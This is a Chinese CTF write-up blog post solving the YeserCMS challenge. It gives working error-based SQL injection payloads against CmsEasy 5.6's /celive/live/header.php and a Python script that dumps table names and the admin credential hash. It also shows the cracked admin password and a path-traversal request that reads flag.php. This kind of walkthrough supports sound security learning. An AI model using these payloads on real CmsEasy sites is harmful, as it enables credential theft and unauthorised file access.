<!--yml
category: 未分类
date: 2022-04-26 14:44:53
-->

# [WEB攻防] i春秋- “百度杯”CTF比赛 十二月场-YeserCMS cmseasy CmsEasy_5.6_20151009 无限制报错注入 复现过程_AAAAAAAAAAAA66的博客-CSDN博客

> 来源：[https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122114844](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/122114844)

[中华人民共和国网络安全法(出版物)_360百科](https://baike.so.com/doc/24210940-24838928.html "中华人民共和国网络安全法(出版物)_360百科")

> 可以说一道经典的CTF题目，解这道题的过程类似于我们渗透测试的过程，所以把它放在了这个专栏，在这里我们详细讲过程，而不是原理。

**目录**

[题目](#%E9%A2%98%E7%9B%AE "题目")

[寻找方向](#%E5%AF%BB%E6%89%BE%E6%96%B9%E5%90%91 "寻找方向")

[flag .php](#flag%20.php "flag .php")

[YearsCMS](#YearsCMS "YearsCMS")

[ 报错注入](#%C2%A0%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5 " 报错注入")

[后台读取flag](#%E5%90%8E%E5%8F%B0%E8%AF%BB%E5%8F%96flag "后台读取flag")

[总结](#%E6%80%BB%E7%BB%93 "总结")

* * *

# 题目



> 给了我们提示，而且注意题目名字，YeserCMS CMS(内容管理系统)提示我们要找到这个网站的CMS版本

进入环境



## 寻找方向

> 一般情况我们肯定都是把能点的全点一遍，上传的上传，注入的注入，传参执行的执行。
> 
> 但是要按照题目意思来，毕竟这是比赛，时间还是比较紧张的，不可能让你在没漏洞的地方浪费时间，而是给了你一点提示

### flag .php

 先进入flag.php



没有，但是应该是在后台。习惯性的robots.txt（这种题目该给的信息会给）



### YearsCMS

> 网上搜索YearsCMS，但是如果这是比赛的话，你是搜不到的，因为这是出题方改了cms的名字（现在早就比完了，肯定能搜到不少 write up）
> 
> 所以接下来就是提到如何通过这个网页寻找CMS版本了

[常见的判断网站cms方法_黑面狐-CSDN博客_网站cms系统检测](https://blog.csdn.net/qq1124794084/article/details/79218596 "常见的判断网站cms方法_黑面狐-CSDN博客_网站cms系统检测")

想详细学习的可以看上面的链接。

最简单方法就是直接浏览器搜索**在线CMS指纹识别**

[在线指纹识别,在线cms识别小插件--在线工具](http://whatweb.bugscaner.com/look/ "在线指纹识别,在线cms识别小插件--在线工具")

把网址输进去OK



##  报错注入

找到了cms版本，接下来就是百度该cms的漏洞了。（具体原理看下方链接）

[cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园](https://www.cnblogs.com/yangxiaodi/p/6963624.html "cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园")

我们获得了payload

```
url: /celive/live/header.php

post：

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528username%252C%2527%257C%2527%252Cpassword%2529%2529%2520from%2520user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520</q></xjxquery>
```

这里是经过了二次编码，所以我们URL解码看看payload，方便我们通过这个题目稍微修改下。百度在线网站解码


**解码后**

```
 xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx'，
(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from cmseasy_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

这里是查找cmseasy_user的表信息，也就是用户的账户密码，可是使用不了（出题人修改了表名）

那怎么办？

**既然注入存在，我们自行修改语句，从爆表开始。这里就需要有一点报错注入的基础了，下面文章讲到了报错注入。**

[i春秋CTF-训练营 SQL注入-2 一鱼三吃 sqlmap bp手注 python脚本_AAAAAAAAAAAA66的博客-CSDN博客](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121638753 "i春秋CTF-训练营 SQL注入-2 一鱼三吃 sqlmap bp手注 python脚本_AAAAAAAAAAAA66的博客-CSDN博客")

[SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/118084345 "SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客")

修改后的payload

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

到这个url（漏洞讲解里有，这里有传参，存在注入）

```
/celive/live/header.php
```



 因为输出长度的限制，只爆出了一点表，之后我修改1，32，为32到64，继续运行。

> xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),**1,32**),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>



后面试了几下还是没把表爆完。。。。。。。。

这时候问题又来了怎么爆完，手动还是自动，不说了，上大佬脚本！

pycharm python3版本运行

```
import requests
url = 'http://f323616315c34c59a57da0958bdba1c55e2573098c8a48ea.changame.ichunqiu.com/celive/live/header.php'
for i in range(1,999,31):
    postdata = {
    'xajax':'Postdata',
    'xajaxargs[0]':"<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),%s,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>" %str(i)
}
    r = requests.post(url,data=postdata)
    print(r.content[22:53]) 
```



 好家伙，放在最后一个？手动不得累死我？？

随后爆出管理员账户和密码payload

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```



 好家伙，又不给我爆完（输出长度的限制）

修改payload（1,32 改为32,64）

payload

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),32,64),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```



 爆全了，2个加一块。

```
[admin|ff512d4240cbbdeafada404677ccbe61] 
```

MD5解码 还是那样百度MD5在线解码。

坑的是这里还要付费



 换个网站



```
所以得出 管理员账户：admin
              密码：Yeser231
```

随后url改为 /admin 登陆



这一阶段的任务就完成了。

## 后台读取flag

这里也需要一些尝试，首先是想文件上传，试了很久发现没有？，咋办？要是我当初做到这一步我也不知道，哈哈，所以要看write up 学习思路啊。

以看过write up的心理来说下一步。最可疑的地方是（）？？？？



> 这里有关于文件，而我们的目的就是获取flag文件

 点编辑抓包

 

```
&id=#position_html

传参调用了position_html 
打开一下脑洞，是不是这里提取的是position_html
那么把参数换为 flag.php 行不行呢？ 当然这里需要目录穿越
所以最终payload
&id=#../../flag.php
```

重新抓包repeated



 获取flag

# 总结

这道题目就像真实的渗透测试一样，找信息，找POC，利用POC，编写脚本，进入后台，抓包猜程序功能，尝试寻找，修改文件，最终获取flag，按着这个思路的确对自己有挺大帮助的，至少在思考上。

参考链接

[“百度杯”CTF比赛 九月场 YeserCMS 详细解析 - 灰信网（软件开发博客聚合）](https://www.freesion.com/article/5282538449/ "“百度杯”CTF比赛 九月场 YeserCMS 详细解析 - 灰信网（软件开发博客聚合）")

[cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园](https://www.cnblogs.com/yangxiaodi/p/6963624.html "cmseasy CmsEasy_5.6_20151009 无限制报错注入（parse_str()的坑） - 羊小弟 - 博客园")

[SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/118084345 "SQL注入之错误注入_基于updatexml()_wangyuxiang946的博客-CSDN博客")

* * *

作者水平有限，有任何不当之处欢迎指正。

本文目的是为了传播web安全原理知识，提高相关人员的安全意识，任何利用本文提到的技术与工具造成的违法行为，后果自负！